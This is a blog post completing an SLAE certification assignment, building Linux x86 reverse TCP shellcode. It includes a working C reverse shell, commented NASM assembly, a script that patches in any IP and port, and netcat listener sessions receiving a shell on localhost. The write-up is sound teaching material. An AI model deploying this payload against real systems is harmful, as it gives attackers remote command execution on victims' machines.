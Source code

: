```yaml
---
title:  "[SLAE 2] Reverse TCP Shellcode"
---
```


![Logo](/assets/images/tux-root.png)

## Reverse TCP Shellcode

This is the second assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) exam: building a reverse TCP shellcode. As for the previous _`bind tcp`_ one, I've started with a C program that creates a reverse TCP connection:
```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
 
int main() {
    int sockfd = 0;
    int ret = 0;
 
    struct sockaddr_in dest;
 
    // Create an un-named socket. returns socket descriptor
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
 
    memset(&dest, '0', sizeof(struct sockaddr));
    dest.sin_family = AF_INET;
    dest.sin_addr.s_addr = inet_addr("127.0.0.1"); 
    dest.sin_port = htons(8888);
 
    connect(sockfd, (struct sockaddr *)&dest, sizeof(struct sockaddr));
 
    // Duplicate stdin, stdout, stderr
    ret = dup2(sockfd, 0);
    if (-1 == ret) {
        printf("STDIN duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(sockfd, 1);
    if (-1 == ret) {
        printf("STDOUT duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(sockfd, 2);
    if (-1 == ret) {
        printf("STDERR duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    // Replace process image
    char *args[2];
    args[0] = "/bin/sh";
    args[1] = NULL;      // Needs to ne a NULL terminated list of args
 
    ret = execve(args[0], args, NULL);
    if (-1 == ret) {
        printf("Execve failed: %s\n", strerror(errno));
        return 1;
    }
 
    return 0;
}
```

I've then compiled the reverse shell:
```bash
$ gcc -Wall shell_reverse_tcp.c -o shell_reverse_tcp
```

And started the listener to test: 
```bash
$ nc -lvvp 8888
Listening on [0.0.0.0] (family 0, port 8888)
```

And in another terminal executed the reverse shellcode: 
```bash
$ ./shell_reverse_tcp
```

Sure enough, the listener received a remote connection:
```bash
Listening on [0.0.0.0] (family 0, port 8888)
Connection from [127.0.0.1] port 8888 [tcp/*] accepted (family 2, sport 60226)
whoami
liv
```

To see the system calls necessary to implement this in assembly, I've used _`strace`_:
```bash
$ strace ./shell_reverse_tcp
...
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(8888), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2
execve("/bin/sh", ["/bin/sh"], [/* 0 vars */]) = 0
```

Next is the commented assembly source code implementing the system calls from above:
```c
global _start   

section .text
_start:

    ; Linux Syscall Reference
    ; http://syscalls.kernelgrok.com/


    ; 1. socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = sockfd
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    push ecx        ; NULL terminate args list
    mov cl, 6       ; IPPROTO_TCP (6)
    push ecx
    xor ecx, ecx
    mov cl, 1       ; SOCK_STREAM (1) - in socket.h
    push ecx
    xor ecx, ecx
    mov cl, 2       ; PF_INET (2) - IP PROTO FAMILY
    push ecx
    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 1       ; socketcall type of call: SYS_SOCKET (1) 
    push 102
    pop eax         ; socketcall syscall
    int 0x80
    mov edx, eax    ; sockfd is returned in eax. Save into edx    

    ; 2. connect(3, {sa_family=AF_INET, sin_port=htons(8888), sin_addr=inet_addr("127.0.0.1")}, 16)
    ;struct sockaddr_in {
    ;    short            sin_family;   // e.g. AF_INET, AF_INET6
    ;    unsigned short   sin_port;     // e.g. htons(3490)
    ;    struct in_addr   sin_addr;     // see struct in_addr, below
    ;    char             sin_zero[8];  // zero this if you want to
    ;};
    ;struct in_addr {
    ;    unsigned long s_addr;          // load with inet_pton()
    ;};
    push <IP>       ; IP address
    push word <PORT>; 16 bits - port number
    push word 2     ; family - AF_INET (2)
    mov ecx, esp    ; pointer to args

    push byte 0x10  ; Address length - 16 bytes
    push ecx        ; Pointer to sockaddr_in structure
    push edx        ; sockfd from socket call

    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 3       ; socketcall type of call: SYS_CONNECT (3)
    xor eax, eax
    mov al, 102     ; socketcall syscall
    int 0x80

    ; 3. dup2(connfd, 2), dup2(connfd, 1), dup2(connfd, 0)
    push 2
    pop ecx         ; ecx - newfd
    mov ebx, edx    ; edx - connfd, ebx - oldfd
    dup_loop:
    mov al, 63      ; dup2 syscall
    int 0x80
    dec ecx
    jns dup_loop    ; exit when signed (-1)
      
    ; 4. execve("/bin/sh", ["/bin/sh"], [/* 0 vars */])
 ; PUSH the first null dword 
 xor eax, eax
 push eax

    ; PUSH //bin/sh (8 bytes) 
 push 0x68732f2f ; 'hs//'
 push 0x6e69622f ; 'nib/
 mov ebx, esp    ; EBX - 1st param - NULL terminated filename

 push eax        ; EDX - 3rd param - NULL terminated list of env variables
 mov edx, esp    ; NULL terminator must be set before setting the 2nd param!

 push ebx        ; ECX - 2nd param - array of argument strings
 mov ecx, esp

 mov al, 11      ; execve syscall
 int 0x80
```

The IP address and port are replaced by a bash script, which does the compilation and linking:
```bash
$ ./compile.sh 
Usage: compile.sh {ip} {port}
$ ./compile.sh 127.0.0.2 8899
[+] Replacing IP with 0x0200007f
[+] Replacing port number with 0xc322
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Cleaning ...
[+] Done!
$ nc -lvvp 8899 
Listening on [0.0.0.0] (family 0, port 8899)
$ ./shell_reverse_tcp
Connection from [127.0.0.1] port 8899 [tcp/*] accepted (family 2, sport 41801)
whoami
liv
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
